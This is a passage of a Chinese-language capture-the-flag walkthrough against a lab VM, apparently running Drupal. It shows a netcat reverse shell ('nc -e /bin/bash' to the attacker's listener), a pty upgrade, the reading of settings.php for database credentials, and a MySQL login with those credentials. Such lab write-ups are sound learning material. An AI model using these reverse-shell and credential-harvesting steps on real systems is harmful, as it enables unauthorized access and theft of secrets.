 

尝试获取反弹shell

```
kali：nc -lvvp 1234 
靶机 ：nc -e /bin/bash 192.168.10.128 1234
kali：python -c 'import pty;pty.spawn("/bin/bash")'
```

![image-20211219165140933](https://raw.githubusercontent.com/todis21/image/main/img/image-20211219165140933.png)

![image-20211219165153578](https://raw.githubusercontent.com/todis21/image/main/img/image-20211219165153578.png)

反弹成功

先查看文件一下

![image-20211219165247700](https://raw.githubusercontent.com/todis21/image/main/img/image-20211219165247700.png)

这里有一个flag1.txt,`cat flag1.txt`查看

![image-20211219165548731](https://raw.githubusercontent.com/todis21/image/main/img/image-20211219165548731.png)

翻译一下：

"每个好的 CMS 都需要一个配置文件 - 你也是。"

百度查找一下这个CMS的配置文件名字

![image-20211219165833472](https://raw.githubusercontent.com/todis21/image/main/img/image-20211219165833472.png)

路径都查出来了，直接查看settings.php

```
cat sites/default/settings.php
```

![image-20211219170147768](https://raw.githubusercontent.com/todis21/image/main/img/image-20211219170147768.png)

拿到了flag2,并且得到数据库信息

flag2的翻译：

![image-20211219170326017](https://raw.githubusercontent.com/todis21/image/main/img/image-20211219170326017.png)

我不懂作者要表达啥，但我知道要提权

根据上面信息，尝试连接数据库

```
mysql -udbuser -pR0ck3t
```

![image-20211219172022853](https://raw.githubusercontent.com/todis21/image/main/img/image-20211219172022853.png)

连接成功，查看数据库

```
show databases;
```

